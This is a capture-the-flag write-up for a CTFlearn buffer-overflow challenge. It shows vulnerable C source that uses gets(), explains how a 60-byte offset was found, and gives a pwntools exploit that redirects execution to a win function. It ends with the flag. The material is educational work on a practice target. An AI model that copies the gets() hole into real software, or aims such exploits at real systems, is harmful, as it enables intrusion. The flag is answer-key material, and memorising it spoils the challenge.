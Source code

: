 # RIP my bof
#### Write-up author: [jon-brandy](https://github.com/jon-brandy)
## DESCRIPTION:
Okay so we have a bof, can we get it to redirect IP (instruction pointer) to something else?

If you get stuck liveoverflow covers you again!

`nc thekidofarcrania.com 4902`

[FILE](https://github.com/Bread-Yolk/ctflearnwu/blob/d5bb9a4c2cc44ed64ad2ad4b3c68fa1e986a50b9/Assets/Binex/RIP%20my%20bof/simple-rip.tar.gz)
## HINT:
- NONE
## STEPS:
1. First, download the file given.
2. Next, extract the `tar.gz` file.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/194563091-5297e2f5-e98a-42c4-acee-113568676149.png)


3. Go to the extracted folder.
4. Let's run the **server** file.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/194563320-7a0be066-b7e0-4bb5-87be-74131024d127.png)


5. Let's input any length of A's.

![image](https://user-images.githubusercontent.com/70703371/194563423-6933d1a4-e7d1-47c4-a1da-0806135489bc.png)


6. Let's analyze the source code.

> BOF2.C

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

// Defined in a separate source file for simplicity.
void init_visualize(char* buff);
void visualize(char* buff);

void win() {
  system("/bin/cat /flag.txt");
}

void vuln() {
  char padding[16];
  char buff[32];

  memset(buff, 0, sizeof(buff)); // Zero-out the buffer.
  memset(padding, 0xFF, sizeof(padding)); // Mark the padding with 0xff.

  // Initializes the stack visualization. Don't worry about it!
  init_visualize(buff); 

  // Prints out the stack before modification
  visualize(buff);

  printf("Input some text: ");
  gets(buff); // This is a vulnerable call!

  // Prints out the stack after modification
  visualize(buff); 
}

int main() {
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  vuln();
}

```

7. Actually based from the program output we can conclude that we must add padding bytes until we met the first byte of the **win**'s address.

![image](https://user-images.githubusercontent.com/70703371/194566229-afd76386-7b1d-473e-986a-9c4fdfcbe47c.png)



8. To make sure it's the correct address, let's run gdb then input `info address win`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/194566395-03d478de-b300-4b0b-aab1-23073dfe8f0d.png)


9. Now let's run the file again and add padding until we met the first byte of **win**.


![image](https://user-images.githubusercontent.com/70703371/194566631-a8f2560e-a4bf-4ae4-8536-9b66e8111c8a.png)


10. Great! Now we know that the correct padding is 60 bytes.
11. Now we can control the return address.
12. However i found this challenge has similiarities with `ret2win` concept.
13. For this solution i made this python script:

```py
import os
from pwn import *

os.system('cls')
addrWin = 0x8048586 # the win function's address
sh = remote('thekidofarcrania.com', 4902)
p = b'A' * 60 # padding
p += p64(134514054) ## Decimal value of win`s offset

sh.recvuntil("text: ")
sh.sendline(p)

sh.interactive()
```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/194567283-70de1ee8-2076-459e-b9ff-2a73ebd5fe18.png)



14. Finally! We got the flag.


## FLAG

```
CTFlearn{c0ntr0ling_r1p_1s_n0t_t00_h4rd_abjkdlfa}
```


